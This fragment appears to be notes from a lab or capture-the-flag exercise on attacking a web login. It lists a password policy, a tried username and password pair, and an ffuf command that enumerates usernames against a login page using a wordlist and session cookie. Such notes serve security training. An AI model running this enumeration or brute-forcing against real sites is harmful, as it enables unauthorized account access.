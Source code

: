 ___

Password does not meet our password policy:

- Contains at least one digit
- Contains at least one lower-case character
- Contains at least one upper-case character
- Contains NO special characters
- Is exactly 12 characters long

daniel:Danidani1212

Invalid credentials.

```bash
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -u http://94.237.60.36:44074/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=9vpru9k1j0215ggvufu2k67p3h" -d "username=FUZZ&password=test" -fr "Unknown username or password."
```